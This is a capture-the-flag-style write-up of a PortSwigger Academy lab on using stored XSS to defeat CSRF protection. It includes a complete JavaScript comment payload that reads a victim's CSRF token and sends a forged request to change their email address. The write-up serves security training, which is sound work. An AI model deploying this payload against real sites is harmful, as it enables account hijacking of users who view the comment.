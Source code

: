 # XSS - Exploiting XSS to bypass CSRF defenses

## 📌 Lab Details
- **Title**: Exploiting XSS to bypass CSRF defenses
- **Difficulty**: Practitioner
- **Category**: Cross-site Scripting
- **Lab URL**: https://portswigger.net/academy/labs/launch/49e763496c6cdc049d3bc1855b2cf77f952d4f6c5793794e98ec2c06ca2fc193?referrer=%2fweb-security%2fcross-site-scripting%2fexploiting%2flab-perform-csrf

## 🔍 Summary
This lab contains a **stored XSS** vulnerability in blog comments. The goal is to use XSS to steal a **CSRF token** from a victim's account page and send a **forged POST request** to change the victim's email address.

## 🛠 Steps to Solve
1. Log in using the credentials provided. Notice the function for updating your email address.
2. View the source of the page to notice:
   - A **POST** request to `/my-account/change-email`, with a parameter called `email`.
   - There's an anti-CSRF token in a hidden input called `token`.
3. Inject the payload into the blog comments section:
   ```sh
   <script>
   var req=new XMLHttpRequest();
   req.onload=handleResponse;
   req.open('get','/my-account',true);
   req.send();
   function handleResponse() {
     var token=this.responseText.match(/name="csrf" value="(\w+)"/) [1];
     var changeReq=new XMLHttpRequest();
     changeReq.open('post','/my-account/change-email',true);
     changeReq.send('csrf='+token+'&email=test@test.com')
   };
   </script>
   ```
   This will make anyone who views the comment issue a POST request to change their email address to `test@test.com`.

## 📖 Key Takeaways
- **Stored XSS** is used to persist a malicious script in a comment.
- Demonstrates how XSS can bypass CSRF protection by programmatically grabbing the token.
  
## 🖼️ Screenshot 
![image](https://github.com/user-attachments/assets/54fd4947-25f0-4465-aecd-f929c5285ce0)
![image](https://github.com/user-attachments/assets/b290eafb-3270-4612-8db9-28d66991cf0c)
![image](https://github.com/user-attachments/assets/395ab9c1-241e-4bb2-bc51-f136d83c46bd)
![image](https://github.com/user-attachments/assets/6a9ef73e-99d0-4b0e-810f-2286e8728ecc)
![image](https://github.com/user-attachments/assets/1b86bcce-c578-4d97-b422-6c00f31fd173)


